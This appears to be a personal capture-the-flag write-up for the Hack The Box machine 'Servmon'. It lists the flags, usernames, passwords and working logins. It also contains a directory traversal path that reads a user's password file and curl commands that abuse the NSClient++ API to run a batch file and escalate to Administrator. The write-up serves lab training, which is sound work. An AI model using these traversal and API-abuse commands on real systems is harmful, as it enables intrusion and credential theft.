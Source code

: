 # Basic:

```
* Name: Servmon
* IP: 10.10.10.184
* Level: Easy
* Box: Windows
* Release: 11 Apr 2020
```
# Flags
```
User: 38f2ddac2209b111ab1e7ab50cfed900
Root: 13ee495ad015d2bea1bc4f487a4c70e7
```

#Usernames:
```
Nadine
Nathan
```
# Creds
```
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```
# NSCLIENT
```
ew2x6SsGTxjRwXOT
```
# Working logins
```
ftp- anonymous
ssh- nadine:L1k3B1gBut7s@W0rk
```
# Nmap Scan:

```
## Ports
* 21 
* 139
* 80: Directory traversal exploit found
* 22
* 445
* 135
* 5666
* 8443
* 6699

```


# FTP

```
* Anonymous login allowed
* Found todo.txt in Nathan directory
* Found confidential.txt in Nadine directory
```
# Exploit

```
/../../../../../../../../../../../../../Users/Nadine/Desktop/Passwords.txt

```
# NsClient exploit
```
* I did it using api
* curl -s -k -u admin -X PUT https://localhost:8443/api/v1/scripts/ext/scripts/test.bat --data-binary "start C:\Temp\evil.bat"
  ** evil.bat::
  @echo off
  type C:\Users\Administrator\Desktop\root.txt
* curl -s -k -u admin https://localhost:8443/api/v1/queries/test/commands/execute?time=1m
```
